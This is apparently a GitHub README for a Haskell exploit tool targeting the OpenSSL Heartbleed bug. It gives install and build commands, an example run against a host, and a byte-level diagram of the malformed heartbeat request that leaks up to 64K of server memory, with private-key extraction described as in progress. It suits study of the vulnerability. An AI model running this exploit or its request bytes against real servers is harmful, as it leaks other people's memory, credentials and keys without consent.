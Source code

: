 haskell-heartbleed: Implementation of OpenSSL Heartbeat bug exploit in Haskell
==============================================================================

Requirements and Insallation
----------------------------

This program depends on a couple packages, besides GHC of course:

* `Options <http://hackage.haskell.org/package/options>`_ - for argument parsing
* `Repa <http://hackage.haskell.org/package/repa>`_ - for searching through
memory chunks in parallel.
* `tls (customized) <https://github.com/lehins/hs-tls>`_ - version of
`tls <http://hackage.haskell.org/package/tls>`_ library with hearbeat feature added
to it.

Here is installation and compilation instructions (llvm is required for Repa):

.. code-block:: bash

   ~$ sudo apt-get update && sudo apt-get install llvm
   ~$ cabal update && cabal install Options repa
   ~$ git clone https://github.com/lehins/hs-tls
   ~$ cd hs-tls/core
   ~/hs-tls/core$ cabal install
   ~/hs-tls/core$ cd ..
   ~$ rm -R hs-tls
   ~$ git clone https://github.com/lehins/haskell-heartbleed
   ~$ cd haskell-heartbleed
   ~/haskell-heartbleed$ make
   ~/haskell-heartbleed$ ./heartbleed --help                

Example Usage
-------------

.. code-block:: bash
     
   $ ./heartbleed --host example.com --times 10 +RTS -N

Features
--------

Can extract up to 64K of random memory from a server running vulnerable version
of OpenSSL. Unlike most heartbleed implementations, all requests and responses
are transmitted over encrypted TLS connection. Moreover, same TLS connection is
reused for heartbeat requests, until it is dropped by the server, in which case
it is automatically reestablished. Making this implementation blazingly fast.

Still working on ability to retreive private keys from the memory chunks.                

Overview of Heartbeat Request
-----------------------------

Legitimate request and response::

                             _ Size of the payload  _Payload "foo"
    Request__               /                ______/
             \             /                /
    (..) [0x01] [0x00 0x03] [0x66 0x6F 0x6F] [at least 16 bytes random padding] 

    Response_
             \
    (..) [0x02] [0x00 0x03] [0x66 0x6F 0x6F] [at least 16 bytes other random padding] 

Request that exploits the bug, requesting 64K of memory from the server, notice
missing padding::
     
    
       _ Heartbeat      _TLS v1.0   _Message size  _Heartbeat Request  _Payload Size
      /                /           /      ________/   ________________/
     /                /           /      /           /
    [0x18] [0x03 0x01] [0x00 0x03] [0x01] [0xFF 0xFF]


Disclaimer
----------

This program was written for educational purpose only. Pointing this program at
any computer without prior agreement can be considered illegal and might cause
legal action, prosecution, fines and/or imprisonment. Use it at your own risk.
